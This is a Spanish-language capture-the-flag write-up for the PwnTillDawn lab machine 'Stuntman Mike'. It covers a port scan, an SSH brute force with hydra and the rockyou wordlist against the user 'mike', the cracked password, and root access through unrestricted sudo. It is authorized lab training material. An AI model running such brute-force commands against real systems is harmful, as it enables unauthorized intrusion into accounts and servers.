 # WRITEUP Stuntman Mike

### ESCANEO
#### 10.150.150.166	Linux	Easy
```
PORT     STATE SERVICE
22/tcp   open  ssh
8089/tcp open  unknown
```

Al escanear la ip, podemos ver que solamente hay 2 puertos abiertos. El servicio ssh y posiblemente splunk (8089)


### ENUMERACIÓN

Al identificar las versiones de esos servicios nos muestra lo siguiente:
```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 63 OpenSSH 7.6p1 (protocol 2.0)
8089/tcp open  ssl/http syn-ack ttl 63 Splunkd httpd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-10-25T09:15:13
| Not valid after:  2022-10-24T09:15:13
| MD5:   a81b a4c7 ea97 ebc8 7f73 310f e279 3eb2
| SHA-1: 6bd8 1aeb bb06 78e8 33ff 3419 27c9 6b03 4d72 44c1

```

al ingresar por el navegador al puerto 8089 vemos la version de splunk y al parecer no hay vulnerabilidades publicas para dicha versión.

![alt text](img/1.PNG)

Sólo nos queda el servicio ssh, pero su versión tampoco tiene vulnerabilidades publicas criticas. Lo único que nos queda es realizar fuerza bruta y ver si tenemos suerte.

### EXPLOTACIÓN 

Al intentar ingresar como root al servicio ssh, nos percatamos que hay un banner personalizado y con ella viene una flag. Lo cual me hace pensar que el camino es por ahí. 
Si prestamos atención, hay un usuario potencial que podemos utilizar para realizar bruteforce.

![alt text](img/2.PNG)

Para ello utilizaré hydra y como diccionario utilizaré rockyou junto al usuario Mike, ya que en el banner viene escrito algo como "You are attempting to login to stuntman mike's server"

`hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://10.150.150.166`
 
 Tras realizar la fuerza bruta encontramos una contraseña, "babygirl" que nos da acceso por ssh.

![alt text](img/3.PNG)

La siguiente flag la encontramos en el mismo directorio.

```
mike@stuntmanmike:~$ pwd
/home/mike
mike@stuntmanmike:~$ ls
FLAG36
```


Después para elevar privilegios, basta con ejecutar sudo -l y podemos ver que el usuario mike está agregado a los sudoers del sistema. Por lo que podemos acceder directamente al directorio /root/ y encontrar la ultima flag.
```
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: babygirl
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
mike@stuntmanmike:~$ sudo su
root@stuntmanmike:/home/mike# cd /root
root@stuntmanmike:~# ls
FLAG37
```

Contacto: [Linkedin](https://www.linkedin.com/in/jair-rodriguezz/) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
